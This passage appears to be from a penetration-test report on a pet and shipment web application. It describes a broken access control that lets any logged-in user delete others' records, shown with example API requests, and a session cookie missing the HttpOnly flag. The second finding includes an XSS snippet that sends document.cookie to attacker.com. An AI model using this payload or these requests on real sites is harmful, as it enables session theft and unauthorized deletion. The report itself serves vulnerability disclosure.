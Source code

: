 **Impact:**
- Mass account compromise through hash cracking
- Administrative account takeover
- Unauthorized access to user shipments and personal data
- Potential for credential stuffing attacks on other services

---

### 9. Missing Authentication - Missing Access Controls

**Vulnerability Details:**
The application's security configuration incorrectly allows any authenticated user to delete cat records belonging to other users due to misconfigured Spring Security rules.

**Exploitation via Frontgate Interface:**

1. **Access the Vulnerability:**
   - Login to the application with any valid account
   - Navigate to the Cats section (`/cats`)
   - Note the cat IDs from the API response

2. **Exploit the Missing Authentication:**
   ```
   DELETE /api/cats/{any_cat_id}
   Authorization: Bearer {any_valid_token}
   ```

3. **Attack Process:**
   - Login as any user
   - Get list of cats: `GET /api/cats`
   - Delete any cat record: `DELETE /api/cats/1` (works regardless of ownership)
   - Verify deletion by checking the cats list again

**Impact:**
- Unauthorized data deletion by any authenticated user
- Data integrity compromise
- Potential denial of service through mass deletion

---

### 10. Insecure Session Management - Missing HTTPOnly Flag

**Vulnerability Details:**
The application's session cookies are not configured with the HTTPOnly flag, making them accessible to JavaScript code and enabling session token theft through XSS attacks.

**Exploitation via Frontgate Interface:**

1. **Identify Session Cookies:**
   - Login to the application
   - Check browser developer tools → Application → Cookies
   - Observe that session cookies (like JSESSIONID) lack the HTTPOnly flag

2. **Exploit via XSS (combined with vulnerability #1):**
   ```javascript
   // Steal session cookies via XSS
   <script>
   fetch('//attacker.com/steal', {
     method: 'POST', 
     body: 'cookies=' + document.cookie
   });
   </script>
   ```
